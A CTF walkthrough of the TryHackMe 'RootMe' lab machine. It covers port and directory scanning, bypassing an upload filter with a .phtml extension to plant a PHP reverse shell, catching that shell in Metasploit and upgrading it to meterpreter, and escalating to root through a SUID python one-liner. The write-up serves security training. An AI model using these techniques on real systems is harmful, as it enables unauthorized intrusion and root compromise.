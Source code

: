 ```yaml
---
title: "TryHackMe - RootMe"
categories:
  - TryHackMe
tags:
  - linux
  - writeup
  - tryhackme
  - hacking
  - escalation
  - ctf
---
```

A ctf for beginners, can you root me?

## Reconnaissance
First, i started `rustscan` with `aggressive` mode.
```bash
$ rustscan -a 10.10.194.71 -- -A 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.194.71:22
Open 10.10.194.71:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 00:32 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating Ping Scan at 00:32
Scanning 10.10.194.71 [2 ports]
Completed Ping Scan at 00:32, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:32
Completed Parallel DNS resolution of 1 host. at 00:32, 13.01s elapsed
DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 00:32
Scanning 10.10.194.71 [2 ports]
Discovered open port 80/tcp on 10.10.194.71
Discovered open port 22/tcp on 10.10.194.71
Completed Connect Scan at 00:32, 0.19s elapsed (2 total ports)
Initiating Service scan at 00:32
Scanning 2 services on 10.10.194.71
Completed Service scan at 00:32, 6.41s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.194.71.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 5.71s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.76s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Nmap scan report for 10.10.194.71
Host is up, received syn-ack (0.19s latency).
Scanned at 2021-01-13 00:32:13 EST for 27s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There's only 2 ports are open! SSH and HTTP.

Let's run `gobuster` to find something on the website.
```bash
$ gobuster dir -u 10.10.194.71 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,jpg,html,css,jpeg,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.194.71
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,jpg,html,css,jpeg,txt
[+] Timeout:        10s
===============================================================
2021/01/13 01:16:31 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

There's `/panel` directory, interesting, let's check what it is.

## Getting a shell
We got a upload functionality. 
<a href="/assets/images/tryhackme/rootme/1.png"><img src="/assets/images/tryhackme/rootme/1.png"></a>

Let's try to upload our reverse shell.
<a href="/assets/images/tryhackme/rootme/2.png"><img src="/assets/images/tryhackme/rootme/2.png"></a>

We can't upload a `.php` extension, let's figure it out how to bypass it. After i tried couple times, we can change the extension to `.phtml` to bypass this.
<a href="/assets/images/tryhackme/rootme/3.png"><img src="/assets/images/tryhackme/rootme/3.png"></a>

Set up our listener and go to the file we uploaded before at [here](http://10.10.194.71/uploads/shell.phtml).
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > set LHOST 10.11.25.205
LHOST => 10.11.25.205
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.25.205:9999 
[*] Sending stage (36 bytes) to 10.10.194.71
[*] Command shell session 1 opened (10.11.25.205:9999 -> 10.10.194.71:54424) at 2021-01-13 01:40:29 -0500

$ whoami
www-data
```

Upgrade our shell to meterpreter.
```bash
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.11.25.205:4433 
[*] Sending stage (976712 bytes) to 10.10.194.71
[*] Meterpreter session 2 opened (10.11.25.205:4433 -> 10.10.194.71:59394) at 2021-01-13 01:41:23 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

User.txt:
```bash
meterpreter > shell
Process 13446 created.
Channel 68 created.
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt
THM{REDACTED}
```

## Privilege escalation
Let's see for SUID permission.
```bash
www-data@rootme:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```

There is `python` there, we can abuse it. Let's escalate via `python` SUID.
```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

whoami
root
```

root.txt:
```bash
cat /root/root.txt
THM{REDACTED}
```